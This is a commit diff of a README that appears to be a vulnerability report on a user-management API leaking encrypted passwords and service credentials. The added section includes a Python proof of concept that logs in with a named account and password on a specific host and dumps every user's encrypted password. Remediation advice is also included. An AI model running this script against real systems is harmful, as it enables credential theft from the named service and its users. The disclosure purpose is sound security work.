

Before and after one commit to K2uci/OnlyCubans, a Markdown page: Readme.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Readme.md
+++ b/Readme.md
@@ -60,39 +74,74 @@ Content-Type: application/json
 ```
 
-## Affected User Roles
-- **Admin Role:** Receives full credentials in login response
-- **Operator Role:** Also receives full credentials in login response (tested with jchacon@intrustsecurity.co)
-- **All authenticated users** are exposed to these credentials
+### Step 3: Observe Encrypted Passwords in Response
+The response contains all 8 user accounts with their encrypted passwords.
+
+### Python Proof of Concept Script
+```python
+import requests
+import base64
+
+# Login as operator
+login_data = {"email": "jchacon@intrustsecurity.co", "password": "test123"}
+login_resp = requests.post("https://almaviva.monitorpro.ai/api/users/login",
+                          json=login_data, verify=False)
+token = login_resp.json()['token']
+
+# Fetch all users with passwords
+headers = {"Authorization": f"Bearer {token}"}
+users_resp = requests.get("https://almaviva.monitorpro.ai/api/users/V2/maintenance/all",
+                         headers=headers, verify=False)
+
+# Display exposed passwords
+for user in users_resp.json()['data']:
+    enc_pwd = user.get('password', 'N/A')
+    # Verify CryptoJS format
+    decoded = base64.b64decode(enc_pwd)
+    assert decoded[:8] == b'Salted__', "CryptoJS AES format confirmed"
+    print(f"User: {user['username']}, Encrypted Password: {enc_pwd}")
+```
 
 ## Impact Assessment
-- **Confidentiality:** CRITICAL - Service credentials exposed to all authenticated users
-- **Integrity:** HIGH - Attackers could use credentials to modify data via SOAP/OAuth services
-- **Availability:** MEDIUM - Credentials could be used for denial of service attacks
 
-### Attack Scenarios:
-1. **Unauthorized SOAP Service Access:** An attacker with any valid user account can extract the SOAP credentials and directly access backend SOAP services, bypassing application-level access controls
-2. **OAuth Token Theft:** Using the client_id and client_secret with grant_type=client_credentials, an attacker can obtain OAuth access tokens for protected resources
-3. **Privilege Escalation:** Low-privilege operators can use these credentials to access administrative functions through the underlying services
-4. **Lateral Movement:** These credentials may be reused across multiple systems, enabling broader network compromise
+### Security Impact
+1. **Password Compromise Risk**: If the CryptoJS encryption key is discovered (potentially hardcoded in client-side JavaScript or brute-forceable), ALL user passwords can be decrypted
+2. **Broken Access Control**: Low-privilege operator accounts can access administrator credentials
+3. **Credential Theft**: Attackers with any valid account can harvest all encrypted passwords for offline cracking
+4. **Lateral Movement**: Compromised passwords enable access to other systems where users may reuse credentials
+
+### Business Impact
+- Complete authentication system compromise
+- Potential unauthorized access to all user accounts
+- Regulatory compliance violations (GDPR, PCI-DSS, SOC2)
+- Reputational damage if user credentials are leaked
 
 ## CVSS Score
-**CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L - Score: 9.9 (Critical)**
+**CVSS 3.1 Base Score: 9.1 (Critical)**
+- Attack Vector: Network (AV:N)
+- Attack Complexity: Low (AC:L)
+- Privileges Required: Low (PR:L)
+- User Interaction: None (UI:N)
+- Scope: Changed (S:C)
+- Confidentiality Impact: High (C:H)
+- Integrity Impact: High (I:H)
+- Availability Impact: None (A:N)
 
-## Remediation
+## Remediation Recommendations
 
-### Immediate Actions:
-1. **Remove sensitive credentials from login API response** - The customer object should not include passwordSoapService, client_id, client_secret, or other service credentials
-2. **Rotate all exposed credentials immediately** - All SOAP and OAuth credentials should be considered compromised
-3. **Implement server-side credential storage** - Service credentials should only exist on the server side
+### Immediate Actions
+1. **Remove password field from API responses** - Never return passwords (encrypted or otherwise) to clients
+2. **Implement proper access control** - Restrict user management endpoints to admin role only
+3. **Audit access logs** - Review who has accessed this endpoint
 
-### Long-term Fixes:
-1. Implement proper API response filtering to exclude sensitive fields
-2. Use a dedicated secrets management solution (HashiCorp Vault, AWS Secrets Manager)
-3. Implement the principle of least privilege for credential access
-4. Add API response auditing to detect future credential leaks
-5. Separate service authentication from user authentication flows
+### Long-term Fixes
+1. **Use proper password hashing** - Replace CryptoJS AES encryption with bcrypt, Argon2, or scrypt
+2. **Never store reversible passwords** - Passwords should be one-way hashed with salt
+3. **Implement field-level authorization** - Sensitive fields should be excluded from API responses based on role
+4. **API security review** - Audit all endpoints for similar information disclosure issues
 
 ## References
-- CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
+- CWE-312: Cleartext Storage of Sensitive Information
 - CWE-522: Insufficiently Protected Credentials
+- CWE-916: Use of Password Hash With Insufficient Computational Effort
 - OWASP API Security Top 10 - API3:2023 Broken Object Property Level Authorization
+- OWASP Cryptographic Storage Cheat Sheet
````
Also changed, not shown: other parts of Readme.md (+54 -40 lines).
